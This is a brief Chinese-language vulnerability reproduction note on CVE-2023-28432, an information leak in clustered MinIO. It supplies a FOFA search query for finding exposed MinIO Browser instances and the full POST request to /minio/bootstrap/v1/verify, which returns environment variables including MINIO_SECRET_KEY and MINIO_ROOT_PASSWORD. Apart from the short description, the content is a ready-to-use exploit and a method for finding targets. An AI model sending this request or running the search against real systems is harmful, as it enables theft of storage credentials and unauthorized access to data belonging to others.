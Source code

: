 # CVE-2023-28432 MinIO集群模式信息泄露漏洞

## 1.漏洞描述

MinIO是一个开源对象存储系统。

在其`RELEASE.2023-03-20T20-16-18Z`版本（不含）以前，集群模式部署下存在一处信息泄露漏洞，攻击者可以通过发送一个POST数据包获取进程所有的环境变量，其中就包含账号密码`MINIO_SECRET_KEY`和`MINIO_ROOT_PASSWORD`。

## 2.搜索语法

```plain
fofa：title="MinIO Browser"
```

## 3.漏洞复现

```plain
POST /minio/bootstrap/v1/verify HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36
Accept:text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Content-Type: application/x-www-form-urlencoded


```

响应包如下：

![image-20240613201719366](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20240613201719366.png)